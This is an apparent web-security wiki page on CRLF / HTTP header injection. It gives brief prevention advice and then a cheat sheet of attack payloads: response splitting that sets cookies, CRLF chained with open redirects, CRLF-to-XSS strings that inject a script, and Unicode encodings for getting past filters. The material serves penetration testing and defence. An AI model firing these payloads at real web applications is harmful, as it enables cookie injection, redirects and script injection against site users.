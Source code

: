<figure><img src="../images/image (637).png" alt="https://assets-eu-01.kc-usercontent.com/d0f02280-9dfb-0116-f970-137d713003b6/c6c1f3c4-d244-4bd9-93f7-2c88f139acfa/body-3f9ceeb9-3d6b-4867-a23f-e0e50a46a2e9_14.png?w=1322&#x26;h=506&#x26;auto=format&#x26;fit=crop"><figcaption></figcaption></figure>

### How to Prevent CRLF / HTTP Header Injections in Web Applications

To mitigate the risks of CRLF (Carriage Return and Line Feed) or HTTP Header Injections in web applications, the following strategies are recommended:

1. **Avoid Direct User Input in Response Headers:** The safest approach is to refrain from incorporating user-supplied input directly into response headers.
2. **Encode Special Characters:** If avoiding direct user input is not feasible, ensure to employ a function dedicated to encoding special characters like CR (Carriage Return) and LF (Line Feed). This practice prevents the possibility of CRLF injection.
3. **Update Programming Language:** Regularly update the programming language used in your web applications to the latest version. Opt for a version that inherently disallows the injection of CR and LF characters within functions tasked with setting HTTP headers.

### CHEATSHEET

[Cheatsheet from here](https://twitter.com/NinadMishra5/status/1650080604174667777)

```
1. HTTP Response Splitting
• /%0D%0ASet-Cookie:mycookie=myvalue (Check if the response is setting this cookie)

2. CRLF chained with Open Redirect
• //www.google.com/%2F%2E%2E%0D%0AHeader-Test:test2
• /www.google.com/%2E%2E%2F%0D%0AHeader-Test:test2
• /google.com/%2F..%0D%0AHeader-Test:test2
• /%0d%0aLocation:%20http://example.com

3. CRLF Injection to XSS
• /%0d%0aContent-Length:35%0d%0aX-XSS-Protection:0%0d%0a%0d%0a23
• /%3f%0d%0aLocation:%0d%0aContent-Type:text/html%0d%0aX-XSS-Protection%3a0%0d%0a%0d%0a%3Cscript%3Ealert%28document.domain%29%3C/script%3E

4. Filter Bypass
• %E5%98%8A = %0A = \u560a
• %E5%98%8D = %0D = \u560d
• %E5%98%BE = %3E = \u563e (>)
• %E5%98%BC = %3C = \u563c (<)
• Payload = %E5%98%8A%E5%98%8DSet-Cookie:%20test
```
